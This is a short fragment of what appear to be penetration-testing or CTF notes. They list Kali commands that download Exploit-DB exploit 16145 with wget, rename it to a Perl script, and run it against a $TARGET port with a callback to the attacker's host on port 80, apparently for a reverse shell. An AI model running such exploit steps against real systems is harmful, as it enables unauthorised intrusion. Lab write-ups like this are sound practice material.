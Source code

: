 ```bash - klai
wget https://www.exploit-db.com/exploits/16145
```

```bash - kali
mv 16145 16145.pl
```

![[rlwrap]]

```bash - kali
perl 16145.pl $TARGET 7778 $KALI 80
```

